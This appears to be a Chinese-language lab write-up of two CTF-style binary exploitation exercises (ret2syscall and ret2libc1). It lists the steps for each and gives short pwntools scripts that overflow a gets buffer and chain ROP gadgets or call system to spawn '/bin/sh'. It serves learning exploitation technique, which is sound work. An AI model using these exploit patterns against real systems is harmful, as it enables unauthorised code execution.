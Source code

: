 ## ret2syscall
- 第1步：查看文件
	- ![[Pasted image 20230417121435.png]]
	- 发现内存不可执行
- 第2步：查看反编译代码和可利用字符串
	- 发现存在gets漏洞函数![[Pasted image 20230417121623.png]]
	- 还有字符串'/bin/sh'![[Pasted image 20230417121655.png]]
- 第3步：没有找到可以利用的函数，所以尝试利用系统调用。
	- 查找int中断![[Pasted image 20230417122203.png]]
	- 查找可以利用的gadget
		- ![[Pasted image 20230417122420.png]]
- 第4步：构思payload
	- 偏移量的计算和上面是相同的
	- 这里的payload像链条一样，覆盖原本栈帧的返回地址使得程序跳转到第一个gadget，将栈顶数据弹到eax寄存器，然后又是覆盖返回地址跳转到下一个gadget，将栈顶数据弹到对应的寄存器，重复操作直到我们要利用的系统调用的参数都已经在寄存器中准备好了。最后跳转到系统调用。
- 第5步：编写exp
```python
from pwn import *

sh = process('./ret2syscall')

binsh_addr = 0x80be408
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421

payload = b'a' * 112 + p32(pop_eax_ret) + p32(0xb) + p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(binsh_addr) + p32(int_0x80)
sh.sendline(payload)

sh.interactive()

```
- 结果
	- ![[Pasted image 20230417123604.png]]
## ret2libc1
- 第1步：查看文件
	- ![[Pasted image 20230417102954.png]]
	- 发现内存不可执行
- 第2步：查看反编译代码（和上面相同，不再展示），发现存在危险函数gets。
	- 查字符串发现可以利用的字符串‘/bin/sh’
	- ![[Pasted image 20230417104126.png]]
	- 同时也发现了system函数
	- ![[Pasted image 20230417105052.png]]
- 第3步：那么我们可以构造栈帧向system传输参数'/bin/sh'
	- 其参数是栈上 地址为 [esp] + 4 位置的内容
- 第4步：编写exp
```python
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460

payload = b'a' * 112 + p32(system_plt) + b'b' * 4 + p32(binsh_addr)
sh.sendline(payload)

sh.interactive()
```
- 结果
	- ![[Pasted image 20230417123731.png]]